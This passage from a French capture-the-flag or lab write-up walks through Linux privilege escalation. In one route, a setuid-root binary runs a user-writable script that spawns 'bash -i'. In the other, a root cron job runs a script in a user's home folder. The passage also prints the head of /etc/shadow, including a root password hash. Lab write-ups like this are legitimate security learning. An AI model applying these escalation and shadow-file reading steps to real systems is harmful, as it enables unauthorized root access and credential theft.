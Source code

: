 User3 vers root
---------------

Cet utilisateur dispose d'un binaire setuid 0 dans son dossier personnel. Il semble qu'il effectue un *system()* du script bash *.script.sh* présent dans le même dossier.  

```bash
echo "You Can't Find Me"
bash -i
```

Dès lors il nous suffit de lancer le binaire :  

```plain
user3$ ./shell
You Can't Find Me
Welcome to Linux Lite 4.4 user3

Saturday 06 July 2019, 16:59:03
Memory Usage: 287/985MB (29.14%)
Disk Usage: 5/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)

root# id
uid=0(root) gid=0(root) groups=0(root),1002(user3)
root$ head /etc/shadow
root:$6$mqjgcFoM$X/qNpZR6gXPAxdgDjFpaD1yPIqUF5l5ZDANRTKyvcHQwSqSxX5lA7n22kjEkQhSP6Uq7cPaYfzPSmgATM9cwD1:18050:0:99999:7:::
daemon:x:17995:0:99999:7:::
bin:x:17995:0:99999:7:::
sys:x:17995:0:99999:7:::
sync:x:17995:0:99999:7:::
games:x:17995:0:99999:7:::
man:x:17995:0:99999:7:::
lp:x:17995:0:99999:7:::
mail:x:17995:0:99999:7:::
news:x:17995:0:99999:7:::
```

User4 vers root
---------------

LinEnum aura relevé cette entrée dans la *crontab* :  

```bash
*/5  *    * * * root    /home/user4/Desktop/autoscript.sh
```

Le contenu de ce fichier est le suivant :  

```bash
touch /home/user4/abc.txt
echo "I will automate the process"
bash -i
```

Je vois bien le timestamp sur le fichier */home/user4/abc.txt* être modifié toutes les 5 minutes malgré cela mes éditions sur le script n'ont pas permis de faire exécuter mes commandes :-/  
